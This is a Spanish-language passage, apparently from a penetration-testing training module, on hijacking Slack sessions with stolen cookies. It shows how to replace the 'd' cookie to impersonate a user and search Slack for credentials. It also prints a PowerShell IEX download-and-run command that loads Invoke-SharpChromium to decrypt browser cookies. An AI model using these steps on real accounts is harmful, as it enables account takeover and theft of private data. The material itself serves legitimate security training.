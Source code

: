 Nuestro sitio web objetivo es `slack.com`. Ahora que tenemos la cookie, queremos suplantar al usuario. Naveguemos a slack.com, una vez que se cargue la página, haz clic en el icono de la extensión Cookie-Editor y modifica el valor de la cookie `d` con el valor que tienes del script cookieextractor.py. Asegúrate de hacer clic en el icono de guardar (marcado en rojo en la imagen a continuación).

![text](https://academy.hackthebox.com/storage/modules/67/replace-cookie.jpg)

Una vez que hayas guardado la cookie, puedes actualizar la página y ver que estás conectado como el usuario.

![text](https://academy.hackthebox.com/storage/modules/67/cookie-access.jpg)

Ahora estamos conectados como el usuario y podemos hacer clic en `Launch Slack`. Podemos obtener un aviso para credenciales u otro tipo de información de autenticación; podemos repetir el proceso anterior y reemplazar la cookie `d` con el mismo valor que usamos para obtener acceso la primera vez en cualquier sitio web que nos pida información o credenciales.

![text](https://academy.hackthebox.com/storage/modules/67/replace-cookie2.jpg)

Una vez que completemos este proceso para cada sitio web donde obtengamos un aviso, necesitamos actualizar el navegador, hacer clic en `Launch Slack` y usar Slack en el navegador.

Después de obtener acceso, podemos usar funciones integradas para buscar palabras comunes como contraseñas, credenciales, PII u otra información relevante para nuestra evaluación.

![text](https://academy.hackthebox.com/storage/modules/67/search-creds-slack.jpg)

##### Cookie Extraction from Chromium-based Browsers

El navegador basado en Chromium también almacena la información de las cookies en una base de datos SQLite. La única diferencia es que el valor de la cookie está encriptado con [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` se utiliza comúnmente para encriptar datos usando información de la cuenta de usuario actual o el ordenador.

Para obtener el valor de la cookie, necesitaremos realizar una rutina de desencriptación desde la sesión del usuario comprometido. Afortunadamente, una herramienta [SharpChromium](https://github.com/djhohnstein/SharpChromium) hace lo que necesitamos. Se conecta a la base de datos de cookies SQLite del usuario actual, desencripta el valor de la cookie y presenta el resultado en formato JSON.

Utilicemos [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), un script de PowerShell creado por [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) que utiliza reflection para cargar SharpChromium.

### PowerShell Script - Invoke-SharpChromium

```r
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.
```